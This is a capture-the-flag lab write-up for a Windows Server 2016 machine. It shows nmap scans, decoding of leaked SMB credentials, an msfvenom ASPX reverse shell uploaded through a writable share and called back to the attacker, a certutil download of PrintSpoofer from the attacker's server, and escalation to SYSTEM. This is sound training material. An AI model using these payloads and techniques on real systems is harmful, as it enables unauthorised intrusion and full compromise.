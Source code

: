 ### Name: Relevant
### Ip: 10.10.28.224
### Difficulty: Medium

----------------------------------------------------------------

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    - User.txt
    - Root.txt

Additionally, the client has provided the following scope allowances:

    - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    - Locate and note all vulnerabilities found
    - Submit the flags discovered to the dashboard
    - Only the IP address assigned to your machine is in scope
    - Find and report ALL vulnerabilities (yes, there is more than one path to root)

--------------------------------------------------------------------------    

![10524728b2b462e8d164efe4e67ed087.jpeg](..assets/relevant_assets/10524728b2b462e8d164efe4e67ed087.jpeg)

### Enumeration

I'll begin enumerating this machine by scanning all TCP ports using Nmap:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -p- --min-rate 10000 10.10.28.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:03 CDT
Nmap scan report for 10.10.28.224
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```

Let's enumerate a bit deeper by also using the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -sC -sV 10.10.28.224 -p 80,135,139,445,3389,49663
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:05 CDT
Nmap scan report for 10.10.28.224
Host is up (0.18s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server?
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-27T18:56:40
|_Not valid after:  2023-12-27T18:56:40
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-28T19:07:20+00:00
|_ssl-date: 2023-06-28T19:07:59+00:00; 0s from scanner time.
49663/tcp open  http           Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb2-time: 
|   date: 2023-06-28T19:07:22
|_  start_date: 2023-06-28T18:57:35
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-28T12:07:21-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.02 seconds
```

Navigating to the site on port 80 we find an IIS default landing page:

landing_page.png

Before enumerating http let's take a look at the SMB shares to see if we can find anything interesting.

Using CrackMapExec we see that we have read and write access to the nt4wrksv share using the guest account with null for a password. Let's use SMBClient to further enumerate:

smb_passwords.png

Ok interesting, looks like we've found a couple passwords. This appears to be Base64, so lets try to decode these:

b64_passwds.png

So it appears we now have two sets of credentials:

```text
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
### Exploitation 

Before leaving SMB, I recall that we had both read and write permissions to the share. Let's try upload a reverse shell to see if we can get an easy win and get access to the box.

I'll create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -a x64 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3420 bytes
```

And while still logged into the SMB share I can simply issue the `put` command to uplaod my shell.

`put shell.aspx`

I set up a NetCat listener and turned my attention to the browser to see where my shell may have been uploaded. 

I had no luck on port 80 at http://10.10.28.224/nt4wrksv/shell.aspx

shell_fail.png

But looking back over my nmap scans I noticed the box had another http port open. I was able to succesfully trigger my shell by navigating to http://10.10.28.224:49663/nt4wrksv/shell.aspx

Which called back to my nc listener and gave me a working shell:

first_shell.png

And from here I can grab the user.txt flag from Bob's desktop:

user_flag.png

Let's now turn our attention to escalating privileges to administrator!

### Privilege Escalation

Running `whoami /all` shows me that SeImpersonatePrivilege is enabled on the machine.

impersonate.png

Nice! This should make for an easy privilege escalation. Because this is a Windows 10 box, let's try using PrintSpoofer.exe to escalate to the Administrator user.

Firstly I'll set up a Python webserver in the directory I keep PrinteSpoofer in:

And then afterwards I'll use CertUtil to donwload the file onto the target:

```text
C:\Users\Bob\Desktop>certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

We can also verify a code 200 from the Python server:

```text
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.28.224 - - [28/Jun/2023 14:45:41] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
10.10.28.224 - - [28/Jun/2023 14:45:44] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
```

Once PrintSpoofer is on the target I simply execute:

```text
C:\Users\Bob\Desktop>PrintSpoofer.exe -i -c cmd
```
And I can verify that the exploit worked and am now nt authoirty\system on the machine:

system.png

All that's left to do now is to grab the root.txt flag in the Administrator's Desktop:

root_flag.png

And that's that! Thanks for following along!

-Ryan

------------------------------------------------------------------
